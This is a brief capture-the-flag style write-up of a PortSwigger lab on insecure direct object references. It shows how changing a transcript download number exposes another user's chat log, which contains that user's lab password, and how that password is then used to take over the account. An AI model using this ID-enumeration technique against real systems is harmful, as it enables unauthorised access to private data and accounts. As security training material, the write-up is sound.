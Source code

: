 # [Lab: Insecure direct object references](https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references)

This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.

Solve the lab by finding the password for the user  `carlos`, and logging into their account.

## Analysis

login to `wiener` account.

click to `view transcript` at `live chat` page, => response:

```http
HTTP/1.1 302 Found
Location: /download-transcript/5.txt
Connection: close
Content-Length: 0
```

## Solutions

download script `/download-transcript/1.txt`:

```text
CONNECTED: -- Now chatting with Hal Pline --
You: Hi Hal, I think I've forgotten my password and need confirmation that I've got the right one
Hal Pline: Sure, no problem, you seem like a nice guy. Just tell me your password and I'll confirm whether it's correct or not.
You: Wow you're so nice, thanks. I've heard from other people that you can be a right ****
Hal Pline: Takes one to know one
You: Ok so my password is xtxrz33klcuxcyrwlx86. Is that right?
Hal Pline: Yes it is!
You: Ok thanks, bye!
Hal Pline: Do one!

```

=> solved
